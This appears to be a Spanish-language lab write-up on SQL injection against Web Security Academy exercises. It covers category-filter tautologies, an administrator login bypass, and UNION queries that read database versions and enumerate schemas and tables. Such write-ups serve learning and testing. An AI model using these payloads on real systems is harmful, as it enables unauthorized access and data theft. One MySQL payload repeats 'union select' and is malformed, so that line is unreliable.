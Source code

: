 # Inyecciones SQL

## cheatsheet


## Laboratorios

### Reto 1

Este laboratorio presenta una vulnerabilidad de inyección SQL en el filtro de categorías de productos. Cuando el usuario selecciona una categoría, la aplicación ejecuta una consulta SQL como la siguiente:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Para resolver el laboratorio, realice un ataque de inyección SQL que haga que la aplicación muestre uno o más productos no lanzados.

En la url podemos emplear una vulnerabilidad típica usando las comillas y comentando lo siguiente de esta forma podemos hacerlo:

```bash
https://web-security-academy.net/filter?category=Pets
```
Para explotarla podemos usar `test' or 1=1-- -` donde 1=1 siempre se va a dar  y los guiones posteriores sirven para comentar lo que viene siguiente

```bash
https://web-security-academy.net/filter?category=Pets' or 1=1-- -
```

Obtenemos todos los procutos esten o no lanzados. si quisieramos solo ver los que no estan lanzados , tendriamos que usar esta sentencia:

```bash
https://web-security-academy.net/filter?category=Pets' or released=0-- -
```


### Reto 2

Este laboratorio contiene una vulnerabilidad de inyección SQL en la función de inicio de sesión.

Para resolver el laboratorio, realice un ataque de inyección SQL que inicie sesión en la aplicación como administrator usuario.

Para resolver este reto , he realizado un ataque parecido al reto anterior en un panel de login para ello he utilizado lo siguiente:

```bash
User: administrator
passwd: test' or 1=1-- -
```

De esta manera hacemos un bypass del login.

### Reto 3 Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

Este laboratorio presenta una vulnerabilidad de inyección SQL en el filtro de categorías de productos. Se puede usar un ataque UNION para recuperar los resultados de una consulta inyectada.

Para resolver el laboratorio, muestre la cadena de versión de la base de datos,  es importante destacar que las sentencias de SQL son distintas para cada base de datos.

Para lograrlo:

- Se intercepta la solicitud que filtra los productos por categoría y se modifica el parámetro ‘category’ hay que tener en cuenta que para extraer datos no nos vale lo anterior que muestra todo.

- Primero se determina cuántas columnas devuelve la consulta y cuáles aceptan datos de tipo texto podemos usar ORDER BY e ir probando en nuestro caso son dos columnas. 
```
https://web-security-academy.net/filter?category=Pet' order by 2-- -
```

Esto es necesario para que el ataque UNION funcione correctamente, la letras a y b se deberian de mostrar en alguna parte de la página, la tabla `dual` es una tabla especial que tiene oracle de una fila y columna
 para hacer cálculos.

```
https://web-security-academy.net/filter?category=Pets' union select 'a','b' from dual-- -
```

- Una vez identificadas las columnas, se utiliza una inyección que consulta la tabla ‘v$version’, propia de Oracle, para obtener el valor del campo ‘BANNER’, que contiene información sobre la versión de la base de datos.

- Ejemplo de oracle
```
https://web-security-academy.net/filter?category=Pets' union select 'a',banner from v$version-- -
```

-Ejemplo de MySQL y Microsoft

```
https://web-security-academy.net/filter?category=Pets' union select 'a',@@version-- -
```

Otros ejemplos: 

-Extraer las bases de datos que hay en MYSQL

```
https://web-security-academy.net/filter?category=Pets' union select 'a',union select 'a',schema_name from information_schema.schemata-- -
```

Enumerararlas usando `group_concat()`para concatenar todos los nombres en una sola fila y poder verlos todos juntos

```
https://web-security-academy.net/filter?category=' union select NULL,group_concat(schema_name) from information_schema.schemata-- -
```

Enumeramos todas las tablas de todas las bases de datos

```
https://web-security-academy.net/filter?category=' union select NULL,table_name from information_schema.tables-- -
```

Enumeramos las tablas de una base de datos en específico por ejemplo 'academy_labs'

```
https://web-security-academy.net/filter?category=' union select NULL,table_name from information_schema.tables where table_schema='academy_labs'-- -
```


## ¿Qué es server-side template injection ?

